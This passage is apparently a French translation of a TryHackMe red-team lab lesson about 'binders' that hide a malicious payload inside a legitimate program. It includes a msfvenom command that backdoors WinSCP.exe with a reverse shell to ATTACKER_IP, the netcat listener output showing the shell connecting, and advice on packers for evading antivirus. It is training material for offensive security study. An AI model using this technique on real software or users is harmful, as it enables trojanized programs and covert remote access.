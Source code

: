 Bien qu'il ne s'agisse pas d'une méthode de contournement antivirus , les classeurs sont également importants lors de la conception d'une charge utile malveillante à distribuer aux utilisateurs finaux. Un classeur est un programme qui fusionne deux (ou plus) exécutables en un seul. Il est souvent utilisé lorsque vous souhaitez distribuer votre charge utile cachée dans un autre programme connu pour tromper les utilisateurs en leur faisant croire qu'ils exécutent un programme différent.

![classeur](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5c72d80a077a1f8a813a70c01a6561e9.png)

Bien que chaque classeur puisse fonctionner légèrement différemment, ils ajouteront essentiellement le code de votre shellcode à l'intérieur du programme légitime et le feront exécuter d'une manière ou d'une autre.

Vous pouvez, par exemple, modifier le point d'entrée dans l'en-tête PE afin que votre shellcode s'exécute juste avant le programme, puis rediriger l'exécution vers le programme légitime une fois terminé. De cette façon, lorsque l'utilisateur clique sur l'exécutable résultant, votre shellcode sera d'abord exécuté silencieusement et continuera à exécuter le programme normalement sans que l'utilisateur ne s'en aperçoive.

Liaison avec msfvenom

Vous pouvez facilement insérer une charge utile de votre choix dans n'importe quel fichier .exe avec `msfvenom`. Le binaire fonctionnera toujours comme d'habitude mais exécutera une charge utile supplémentaire en silence. La méthode utilisée par msfvenom injecte votre programme malveillant en créant un thread supplémentaire pour celui-ci, elle est donc légèrement différente de ce qui a été mentionné précédemment mais permet d'obtenir le même résultat. Avoir un thread séparé est encore mieux puisque votre programme ne sera pas bloqué en cas d'échec de votre shellcode pour une raison quelconque.

Pour cette tâche, nous allons détourner l'exécutable WinSCP disponible sur `C:\Tools\WinSCP`.

Pour créer un WinSCP.exe de porte dérobée, nous pouvons utiliser la commande suivante sur notre machine Windows :

Remarque : Metasploit est installé sur la machine Windows pour votre commodité, mais la génération de la charge utile peut prendre jusqu'à trois minutes (les avertissements générés peuvent être ignorés en toute sécurité).

Boîte d'attaque

```
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

Le WinSCP-evil.exe résultant exécutera une charge utile reverse_tcp Meterpreter sans que l'utilisateur ne s'en aperçoive. Avant toute chose, pensez à configurer un `nc`écouteur pour recevoir le shell inversé. Lorsque vous exécutez votre exécutable dérobé, il devrait vous lancer un shell inversé tout en continuant à exécuter WinSCP.exe pour l'utilisateur :

| ![06c3bd06d935a937b2af7dace6a41a27](https://github.com/dsgsec/Red-Team/assets/82456829/950eb190-82d0-47cb-9e84-c6c465478194) | ➜ |

Boîte d'attaque

```
user@attackbox$ nc -lvp 7779
Listening on 0.0.0.0 7779
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

 |

Classeurs et AV

Les classeurs ne feront pas grand-chose pour cacher votre charge utile à une solution audiovisuelle . Le simple fait de joindre deux exécutables sans aucune modification signifie que l'exécutable résultant déclenchera toujours toute signature effectuée par la charge utile d'origine.

L'utilisation principale des classeurs est de tromper les utilisateurs en leur faisant croire qu'ils exécutent un exécutable légitime plutôt qu'une charge utile malveillante.

Lors de la création d'une charge utile réelle, vous souhaiterez peut-être utiliser des encodeurs, des crypteurs ou des packers pour masquer votre shellcode des AV basés sur des signatures, puis le lier à un exécutable connu afin que l'utilisateur ne sache pas ce qui est exécuté.

N'hésitez pas à essayer de télécharger votre exécutable lié sur le site Web de THM Antivirus Check (lien disponible sur votre bureau) sans aucun emballage, et vous devriez obtenir une détection en retour du serveur, cette méthode ne sera donc pas d'une grande aide lorsque vous essayez de obtenir le drapeau du serveur par lui-même.

